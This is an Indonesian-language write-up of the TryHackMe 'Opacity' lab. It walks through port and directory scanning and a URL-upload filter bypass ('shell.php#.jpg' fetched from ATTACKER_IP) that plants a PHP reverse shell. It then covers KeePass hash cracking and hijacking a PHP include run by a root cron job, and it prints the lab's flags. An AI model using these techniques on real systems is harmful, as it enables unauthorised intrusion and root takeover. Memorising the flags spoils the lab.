# Opacity — TryHackMe Writeup

**Target:** Opacity  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Web Enumeration, URL-Based File Upload, PHP RCE, KeePass, Cron Job, PHP Include Hijacking, Privilege Escalation

---

## Recon

Dimulai dengan Rustscan untuk melakukan scanning port.

```bash
rustscan -b 500 --scripts none -t 5000 -a TARGET_IP
```

Dilanjutkan dengan Nmap untuk melakukan enumerasi service.

```bash
nmap -sC -sV -T4 -p22,80,139,445 TARGET_IP
```



Terdapat SMB service yang terbuka. Saya mencoba melakukan quick scan menggunakan `smbmap`.

```bash
smbmap -H TARGET_IP
```



Hasilnya tidak terlalu menarik, sehingga saya mencoba pivot ke website yang berjalan di port 80.

---

## Web Enumeration

Website langsung mengarahkan ke `login.php`. Saya sudah mencoba beberapa credential dasar, tetapi tidak berhasil login.

Kemudian saya menjalankan Feroxbuster untuk melakukan directory fuzzing lebih lanjut.

```bash
feroxbuster -w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -d 3 -u http://TARGET_IP/ -x php
```



Dari hasil fuzzing ditemukan endpoint `/cloud`, yang merupakan fitur untuk meng-upload image melalui URL.



Saya mencoba meng-upload `logo folder.png` melalui fitur tersebut. Setelah upload berhasil, saya diarahkan ke `/cloud/storage.php`.



Karena website menggunakan PHP, saya mencoba meng-upload PHP shell sebagai pengujian. Saya pertama kali mencoba memasukkan:

```text
http://ATTACKER_IP:8000/shell.php
```

Namun upload ditolak dan tidak terjadi apa-apa.

Kemudian saya mencoba menambahkan extension `.jpg` pada URL:

```text
http://ATTACKER_IP:8000/shell.php#.jpg
```

Ternyata berhasil mendapatkan request pada web server saya:

```text
::ffff:ATTACKER_IP - - [19/Aug/2026 10:29:26] "GET /shell.php HTTP/1.1" 200 -
```

Hal ini menunjukkan bahwa server tidak melakukan validasi input dengan benar dan terlalu mempercayai input dari user.

Saya kemudian mencoba mengakses reverse shell tersebut secara langsung menggunakan `curl` dan menjalankan listener.

```bash
curl http://ATTACKER_IP/cloud/images/shell.php
```

Saya berhasil mendapatkan shell.



---

## Credential Discovery — KeePass

Saat melakukan enumerasi, saya menemukan file `dataset.kdbx` di `/opt`.

Setelah melakukan pengecekan, saya mengetahui bahwa `.kdbx` merupakan file database terenkripsi yang digunakan oleh KeePass.

Saya kemudian mendownload file tersebut untuk melakukan cracking di mesin saya menggunakan `keepass2john` dan John the Ripper.

```bash
keepass2john dataset.kdbx > hash.txt
john --wordlist="$HOME/wordlists/rockyou.txt" hash.txt
```



Setelah mendapatkan hasil cracking, saya mencoba membuka database tersebut tetapi mengalami kendala. Saya kemudian meminta bantuan ChatGPT dan berhasil membuka dataset tersebut.



Dari dataset tersebut saya mendapatkan credential yang kemudian berhasil digunakan untuk login SSH.

---

## Privilege Escalation — Cron Job

Setelah login SSH, saya melanjutkan enumerasi dan menemukan directory `scripts` di home directory `sysadmin`.



Di dalamnya terdapat `script.php` yang membutuhkan:

```text
/lib/backup.inc.php
```

Saya tidak dapat memodifikasi `backup.inc.php` karena permission-nya adalah:

```text
-rw-r--r-- 1 root root 967 Jul  6  2022 backup.inc.php
```

Namun, directory `lib` dimiliki oleh user `sysadmin`, sehingga saya dapat menghapus file tersebut dan membuat file baru dengan nama yang sama.

Pada awalnya saya belum menemukan mekanisme otomatis atau schedule yang menjalankan `script.php`. Karena itu saya menjalankan `pspy64` untuk memonitor proses yang berjalan.



Dari hasil monitoring terlihat bahwa `script.php` dijalankan melalui CRON sebagai `UID=0`:

```text
2026/08/19 04:28:01 CMD: UID=0 PID=2358 | /usr/sbin/CRON -f
2026/08/19 04:28:01 CMD: UID=0 PID=2359 | /usr/sbin/CRON -f
2026/08/19 04:28:01 CMD: UID=0 PID=2360 | /bin/sh -c /usr/bin/php /home/sysadmin/scripts/script.php
2026/08/19 04:29:01 CMD: UID=0 PID=2363 | /usr/sbin/CRON -f
2026/08/19 04:29:01 CMD: UID=0 PID=2364 | /usr/sbin/CRON -f
2026/08/19 04:29:01 CMD: UID=0 PID=2365 | /bin/sh -c /usr/bin/php /home/sysadmin/scripts/script.php
```

Dari sini diketahui bahwa `script.php` dieksekusi oleh root setiap satu menit.

Karena directory `lib` dapat saya kontrol, saya dapat mengganti `backup.inc.php` dengan file yang berisi payload.



Setelah file berhasil di-replace, saya hanya perlu menjalankan listener dan menunggu hingga CRON mengeksekusi `script.php` kembali.

Reverse shell sebagai root berhasil didapatkan.



---

## Flags

### Local Flag

```text
6661b61b44d234d230d06bf5b3c075e2
```

### Proof Flag

```text
ac0d56f93202dd57dcb2498c739fd20e
```

